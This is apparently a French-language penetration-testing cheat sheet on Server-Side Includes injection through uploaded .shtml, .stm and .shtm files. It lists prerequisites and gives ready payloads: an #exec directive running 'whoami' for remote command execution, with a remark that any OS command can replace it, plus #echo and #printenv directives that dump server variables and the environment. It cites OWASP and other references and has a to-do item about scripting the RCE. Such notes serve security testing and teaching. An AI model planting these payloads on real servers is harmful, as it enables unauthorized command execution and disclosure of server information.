 # Server Side Includes

**Facteur de risque** : RCE et Information Disclosure via Server-Side Includes (SSI) Injection

**Extension** : `.shtml`, `.stm`, `.shtm`

**Description** : 

Les **Server Side Includes** (SSI) sont un langages de programmation fait pour être interprété par un serveur HTTP. Ils sont surtout utile pour inclure le contenu d'un ou plusieurs fichiers dans une page web sur un serveur web, en utilisant `#include`.

## Sommaire

- RCE via Server-Side Includes (SSI) Injection
- Infomation Disclosure

## RCE via Server-Side Includes (SSI) Injection

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé
- Le serveur supporte les Server Side Includes
- La directive `#exec` doit être autorisé

### Attaque

**rce.shtml**, **rce.stm**, **rce.shtm**

```html
<pre><!--#exec cmd="whoami" --></pre>
```

Les balises `<pre>` permettent d'avoir la sortie de la commande préformaté (préservation à la fois des espaces et les sauts de ligne, avec une police à largeur fixe).
La commande peut être modifiée en replaçant `whoami` par une autre commande OS.

## Information Diclosure avec #echo

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé
- Le serveur supporte les Server Side Includes

### Attaque

Les SSI peuvent être utilisés pour accéder aux informations du serveur :

**info.shtml**, **info.stm**, **info.shtm**

```html
<!--#config timefmt="%A, %d %B %Y, %H:%M:%S"-->

Server Name :
<pre><!--#echo var="SERVER_NAME" --></pre>
Server Software :
<pre><!--#echo var="SERVER_SOFTWARE" --></pre>
Server Adress :
<pre><!--#echo var="SERVER_ADDR" --></pre>
Server Port :
<pre><!--#echo var="SERVER_PORT" --></pre>
Date Local :
<pre><!--#echo var="DATE_LOCAL" --></pre>
Date GMT :
<pre><!--#echo var="DATE_GMT" --></pre>

Document Name :
<pre><!--#echo var="DOCUMENT_NAME" --></pre>
Document URI :
<pre><!--#echo var="DOCUMENT_URI" --></pre>
Last Modified :
<pre><!--#echo var="LAST_MODIFIED" --></pre>
```

## Information Diclosure avec #printenv

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé
- Le serveur supporte les Server Side Includes
- Le serveur est sur Apache (?)
- La directive `#printenv` est autorisée

### Attaque

Parfois, la directive `#printenv` peut être utilisée (ce qui est peu probable dans un système de production) :

**printenv.shtml**, **printenv.stm**, **printenv.shtm**

```html
<pre><!--#printenv --></pre>
```

## References

[Server-Side Includes (SSI) Injection Software Attack | OWASP Foundation](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)

[Server Side Includes: Echo Command, SSI-Developer.net](http://www.ssi-developer.net/ssi/ssi-echo.shtml)

[Server Side Includes - Wikipedia](https://en.wikipedia.org/wiki/Server_Side_Includes)

[SSI Examples](https://users.cs.fiu.edu/~downeyt/cgs4825/ssi.shtml)

[Exploiting Server Side Include Injection &#8211; n00py Blog](https://www.n00py.io/2017/08/exploiting-server-side-include-injection/)

## Todo

- Écrire un script pour le RCE

- Exemple 3 de l'OWASP, avec le CVE 2001-0506

- Ajouter le XSS comme pour une page HTML
